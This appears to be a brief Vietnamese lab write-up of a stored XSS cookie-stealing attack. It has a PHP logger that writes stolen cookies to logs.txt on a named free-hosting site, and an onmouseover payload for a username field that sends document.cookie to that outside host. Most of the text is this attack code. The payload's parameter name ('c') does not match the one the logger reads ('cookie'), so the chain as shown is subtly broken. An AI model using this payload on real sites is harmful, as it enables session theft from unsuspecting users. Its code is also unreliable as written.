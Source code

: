 Người thực hiện: Lê Trần Văn Chương
Ngày: 12/04/2022
Mục lục:
- [Host](#host)
- [XSS](#xss)

## Host
- Host nhận cookie người dùng: https://php-bacsic.000webhostapp.com/index.php
- Host để attack: https://00bluec10.000webhostapp.com/index.php

## XSS

1. Thêm đoạn code sau vào host nhận cookie. Đoạn code này sẽ lấy cookie và ghi vào file `logs.txt`.

```php
<?php
$cookie = $_GET["cookie"];
$file = fopen('logs.txt', 'a');
fwrite($file, $cookie . "\n\n");
?>
```

2. Thêm `<a onmouseover=\"document.location=\'https://php-bacsic.000webhostapp.com/index.php?c=\'+escape\(document.cookie\)\;\">XSSError</a>` vào username và khi người dùng vào web và rê chuột vào chữ `XSSError` thì lực tức sẽ được chuyển qua trang host để lấy cookie người.
![Hinh 1.](~/../img/1.png)

3. Kiểm tra lại file `logs.txt`
![Hinh 2.](~/../img/2.png)

